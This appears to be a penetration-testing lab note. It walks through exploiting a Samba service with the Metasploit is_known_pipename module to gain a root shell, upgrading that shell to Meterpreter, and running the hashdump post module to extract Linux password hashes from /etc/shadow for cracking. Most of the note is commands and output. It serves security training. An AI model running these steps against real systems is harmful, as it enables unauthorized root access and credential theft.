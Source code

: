 ```bash
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```

### Exploitation

```bash
search type:exploit name:samba
use exploit/linux/samba/is_known_pipename
options
run
```

```bash
pwd
	/tmp
```

```bash
# CTRL + Z to background the shell
sessions
```

- Upgrade the `shell cmd/unix` sessions to a `Meterpreter` session

```bash
sessions -u 1
sessions 2

getuid
	Server username: uid=0, gid=0, euid=0, egid=0
	# "root" user Meterpreter session
```

- Linux user account hashes can be dumped using the privileged `root` user.
- Terminate the shell session and background the meterpreter session.

### Hashdump

> 📌 Linux password hashes are stored in the **`/etc/shadow`** file, accessible **only by a user with root privileges**.
>
> - In newer Linux, the hashed passwords are stored in the `/etc/shadow` file. In turn, the hashed password field in the `/etc/passwd` file is filled with the `x` character. `/etc/passwd` is readable by all the users.
> - Linux users' passphrases are hashed using the [crypt](https://manpages.debian.org/unstable/libcrypt-dev/crypt.5.en.html) function. The hashed passphrase follows a specific format: **`$id$salt$hashedpassword`**
> - [Methods Used by Linux for Hashing Passwords](https://www.baeldung.com/linux/hashing-methods-password)

- `post/linux/gather/hashdump` module need to be run manually to dump the user account hashes and unshadow them
  - A hash can be cracked (with `John the Ripper`) or stored for later use

```bash
search hashdump
use post/linux/gather/hashdump
info
# Description:
#   Post Module to dump the password hashes for all users on a Linux 
#   System
set SESSION 2
run
```
